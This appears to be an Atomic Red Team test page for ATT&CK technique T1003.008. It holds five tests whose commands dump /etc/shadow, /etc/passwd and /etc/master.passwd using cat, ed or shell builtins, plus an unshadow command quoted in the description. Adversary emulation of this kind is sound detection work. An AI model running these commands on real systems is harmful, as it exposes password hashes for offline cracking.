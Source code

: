 # T1003.008 - OS Credential Dumping: /etc/passwd, /etc/master.passwd and /etc/shadow
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/008)
<blockquote>

Adversaries may attempt to dump the contents of <code>/etc/passwd</code> and <code>/etc/shadow</code> to enable offline password cracking. Most modern Linux operating systems use a combination of <code>/etc/passwd</code> and <code>/etc/shadow</code> to store user account information, including password hashes in <code>/etc/shadow</code>. By default, <code>/etc/shadow</code> is only readable by the root user.(Citation: Linux Password and Shadow File Formats)

Linux stores user information such as user ID, group ID, home directory path, and login shell in <code>/etc/passwd</code>. A "user" on the system may belong to a person or a service. All password hashes are stored in <code>/etc/shadow</code> - including entries for users with no passwords and users with locked or disabled accounts.(Citation: Linux Password and Shadow File Formats)

Adversaries may attempt to read or dump the <code>/etc/passwd</code> and <code>/etc/shadow</code> files on Linux systems via command line utilities such as the <code>cat</code> command.(Citation: Arctic Wolf) Additionally, the Linux utility <code>unshadow</code> can be used to combine the two files in a format suited for password cracking utilities such as John the Ripper - for example, via the command <code>/usr/bin/unshadow /etc/passwd /etc/shadow > /tmp/crack.password.db</code>(Citation: nixCraft - John the Ripper). Since the user information stored in <code>/etc/passwd</code> are linked to the password hashes in <code>/etc/shadow</code>, an adversary would need to have access to both.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access /etc/shadow (Local)](#atomic-test-1---access-etcshadow-local)

- [Atomic Test #2 - Access /etc/master.passwd (Local)](#atomic-test-2---access-etcmasterpasswd-local)

- [Atomic Test #3 - Access /etc/passwd (Local)](#atomic-test-3---access-etcpasswd-local)

- [Atomic Test #4 - Access /etc/{shadow,passwd,master.passwd} with a standard bin that's not cat](#atomic-test-4---access-etcshadowpasswdmasterpasswd-with-a-standard-bin-thats-not-cat)

- [Atomic Test #5 - Access /etc/{shadow,passwd,master.passwd} with shell builtins](#atomic-test-5---access-etcshadowpasswdmasterpasswd-with-shell-builtins)


<br/>

## Atomic Test #1 - Access /etc/shadow (Local)
/etc/shadow file is accessed in Linux environments

**Supported Platforms:** Linux


**auto_generated_guid:** 3723ab77-c546-403c-8fb4-bb577033b235





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo cat /etc/shadow > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```bash
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #2 - Access /etc/master.passwd (Local)
/etc/master.passwd file is accessed in FreeBSD environments

**Supported Platforms:** Linux


**auto_generated_guid:** 5076874f-a8e6-4077-8ace-9e5ab54114a5





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo cat /etc/master.passwd > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #3 - Access /etc/passwd (Local)
/etc/passwd file is accessed in FreeBSD and Linux environments

**Supported Platforms:** Linux


**auto_generated_guid:** 60e860b6-8ae6-49db-ad07-5e73edd88f5d





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`! 


```sh
cat /etc/passwd > #{output_file}
cat #{output_file}
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #4 - Access /etc/{shadow,passwd,master.passwd} with a standard bin that's not cat
Dump /etc/passwd, /etc/master.passwd and /etc/shadow using ed

**Supported Platforms:** Linux


**auto_generated_guid:** df1a55ae-019d-4120-bc35-94f4bc5c4b0a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
unamestr=$(uname)
if [ "$unamestr" = 'Linux' ]; then echo -e "e /etc/passwd\n,p\ne /etc/shadow\n,p\n" | ed > #{output_file}; elif [ "$unamestr" = 'FreeBSD' ]; then echo -e "e /etc/passwd\n,p\ne /etc/master.passwd\n,p\ne /etc/shadow\n,p\n" | ed > #{output_file}; fi
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
<br/>

## Atomic Test #5 - Access /etc/{shadow,passwd,master.passwd} with shell builtins
Dump /etc/passwd, /etc/master.passwd and /etc/shadow using sh builtins

**Supported Platforms:** Linux


**auto_generated_guid:** f5aa6543-6cb2-4fae-b9c2-b96e14721713





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Path where captured results will be placed | path | /tmp/T1003.008.txt|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
testcat(){ (while read line; do echo $line >> #{output_file}; done < $1) }
[ "$(uname)" = 'FreeBSD' ] && testcat /etc/master.passwd
testcat /etc/passwd
testcat /etc/shadow
```

#### Cleanup Commands:
```sh
rm -f #{output_file}
```





<br/>
